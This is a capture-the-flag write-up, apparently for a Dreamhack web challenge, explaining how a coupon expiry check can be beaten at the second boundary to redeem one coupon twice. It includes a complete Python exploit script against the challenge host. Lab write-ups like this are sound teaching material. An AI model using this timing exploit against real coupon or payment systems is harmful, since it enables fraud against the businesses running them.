


# solution

Well, from the description of challenge, i guess its maybe 90% race conditions. Let's take a look at the source code to see do i properly guess.
 <br>
I think you should focus more on this part. Mention a bit, you cannt claim twice when you submit the coupon. Oke so after 45s is the time that coupon is expired and race_limit equal 10s. So we can race condition by send parallel requests to server. Remember time in this challenge is counted in second. At 46 seconds the coupon expires, so what if it's 45.7 for example? Why we wonder that cause we can bypass

```
if coupon['expiration'] < int(time()):
        raise BadRequest('Coupon expired!')
```

and also that time value of **used_coupon** had removed so it can trigger this if function and we will get more 1000$.

```
if r.setnx(used_coupon, 1):
        # success, we don't need to keep it after expiration time
        if user['uuid'] != coupon['user']:
            raise Unauthorized('You cannot submit others\' coupon!')

        r.expire(used_coupon, timedelta(seconds=coupon['expiration'] - int(time())))
        user['money'] += coupon['amount']
        r.setex(f'SESSION:{user["uuid"]}', timedelta(minutes=10), dumps(user))
        return jsonify({'status': 'success'})
```

Lets try this python code (This challenge relates to time so dont feel confused if you not get more 1000$, just try again 3 4 times more. In my case, i need to run my code 5 times).

```
import requests
import json
import time

url = "http://host3.dreamhack.games:14172/"
session_id = "906493e537b942ec8b540e1e2aeb27fb"

def claim_coupon(session):
    headers = {"Authorization": session}
    res = requests.get(url + "coupon/claim", headers=headers)
    if res.status_code == 200:
        coupon = json.loads(res.text)["coupon"]
        print("Coupon claimed successfully")
        print("Coupon:", coupon)
        return coupon
    else:
        raise Exception("Failed to claim coupon")

def submit_coupon(session, coupon):
    headers = {"Authorization": session, "coupon": coupon}
    res = requests.get(url + "coupon/submit", headers=headers)
    print("1st response:", res.text)
    if res.status_code != 200:
        raise Exception("Failed to submit first coupon")

    print("Waiting 45 seconds...")
    start_time = time.time()

    while time.time() - start_time < 44.8:
        elapsed_time = time.time() - start_time
        print(f"Elapsed time: {int(elapsed_time)} seconds", end='\r')
        time.sleep(1)

    print("complete!")

    res = requests.get(url + "coupon/submit", headers=headers)
    print("2nd response:", res.text)
    if res.status_code != 200:
        raise Exception("Failed to submit 2nd coupon")

def claim_flag(session):
    headers = {"Authorization": session}
    res = requests.get(url + "/flag/claim", headers=headers)
    flag = json.loads(res.text)["message"]
    print("Flag:", flag)

if __name__ == "__main__":
    try:
        session = session_id
        coupon = claim_coupon(session)
        submit_coupon(session, coupon)
        claim_flag(session)
    except Exception as e:
        print(e)
```
